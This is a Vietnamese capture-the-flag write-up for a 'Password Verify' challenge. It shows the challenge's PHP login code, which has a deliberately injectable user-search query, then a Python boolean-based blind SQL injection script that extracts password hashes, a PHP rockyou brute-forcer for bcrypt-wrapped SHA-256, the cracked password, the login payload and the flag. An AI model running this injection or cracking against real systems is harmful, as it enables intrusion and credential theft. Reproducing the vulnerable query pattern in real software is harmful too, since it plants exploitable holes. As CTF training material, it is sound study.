

## [Password Verify](https://ctf.viblo.asia/puzzles/password-verify-c4j7iy5q3hl)



```php
<?php
include "config.php";
    init($conn);
    function _verify($user_pass, $dbs_pass)
    {
        return password_verify(hash('sha256', $user_pass,true), $dbs_pass);
    }
    function check_input($input)
    {
        $charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&\()*+,-./:;<=>?@[]^_`{|}~";
        if (empty($input))
            return false;
        for ($i = 0 ; $i < strlen($input); $i++)
            if (!strpos($charset,$input[$i])) {
                echo $input[$i];
                return false;
            }
        return true;
    }
    if (isset($_POST["submit_login"]))
    {
        $username = $_POST["username"];
        $password = $_POST["password"];
        if(check_input($username) === false || check_input($password) ===false)
        {
            die("h4x0r detecteddddddddd");
        }
        $sql = "SELECT password,admin FROM users WHERE username = ?";
        $query = $conn->prepare($sql);
        $query->bind_param("s",$username);
        $query->execute();
        $query->store_result();
        if ($query->num_rows == 1)
        {
            $query->bind_result($c_pwd,$c_adm);
            $query->fetch();
            if( _verify($password,$c_pwd) )
                if($c_adm)
                    die("You are admin, here is your flag $flag");
                else
                    die("You must be admin to get flag");
        }
        die("H4x0r ?");
    }
    elseif(isset($_POST["search_user_exist"]))
    {
        $username = $_POST["username"];
        $name = $_POST["name"];
        if ( check_input($username) === false || check_input($name) === false)
        {
            die("h4x0r detected");
        }
        $sql = "SELECT id FROM users WHERE username='$username' or name='$name'";
        $result = $conn->query($sql);
        if ($result->num_rows > 0)
        {
            die("User exist");
        }
        die("No user");
    }
    else
    {
        highlight_file(__FILE__);
    }
?>
```

Đơn giản chỉ là dạng boolean-based blind sqli. Tuy nhiên phải bypass được hàm check_input(). Hàm này chỉ kiểm tra xem đầu vào có rỗng không và các kí tự ở đầu vào có nằm trong chuỗi whitelist không.

Mình đã viết 1 đoạn code tấn công sqli để lấy password và 1 đoạn để brute mật khẩu dạng hash thu thập được

```python
import requests
import string
import time

def splitNum(num):
	if '0' in `num`:
		if num<=100:
			return `num-1` + "+" + "1"
		elif num>100:
			#109=99+9+1 110=99+9+2 101=99+1+1
			newNum = `99`
			du = num-99
			if du%10==0:
				newNum += "+" + `1` + "+" +`du-1`
			else:
				newNum += "+" + `du`
			return newNum
	return `num`

def convert(str):
	newStr = 'CHAR('
	for i in str:
		newStr += splitNum(ord(i))
		if(i == str[len(str) - 1]):
			newStr += ")"
		else:
			newStr += ","
	return newStr	

def go(url,payload):
	r = requests.post(url,data=payload)
	return r.text
passwd = ''
while True:
	for i in (string.printable):
		payload = {'search_user_exist': '', 'username': '\\','name':"/**/OR/**/(SELECT/**/group_concat(password)/**/FROM/**/users)/**/LIKE/**/BINARY/**/{}#".format(convert(passwd+i+"%"))}
		ans = go("http://172.104.49.143:1322/",payload)
		# print passwd+i,ans,convert(passwd+i+"%")
		if "User exist" in ans:
			passwd+=i
			break
		else:
			print "."
			continue
	print passwd
  
  
```

Password dạng hash thu thập được: `$2y$10$31RlOClB9QKIlWkVxfvGEO2k5q9RICDR1wiXz7mCJa.z0/ASVcnc.`

```
<?php
ini_set('memory_limit', '-1');
ini_set('max_execution_time', '-1');
ini_set('max_input_time', '-1');

$hashed = '$2y$10$31RlOClB9QKIlWkVxfvGEO2k5q9RICDR1wiXz7mCJa.z0/ASVcnc.';
$handle = fopen("rockyou.txt", "r");
if ($handle) {
    while (($line = fgets($handle)) !== false) {
        if (password_verify(hash('sha256', trim($line), true), $hashed)) {
			echo $line;
			break;
	    }
    }
    fclose($handle);
} else {
    // error opening the file.
} 
```

Brute-force password trên ta được: Dakota

`Payload: submit_login=&username=admin&password=Dakota`

`Flag{!!!!_cTf_Ev3ry_Wh3r3_!!!!}`

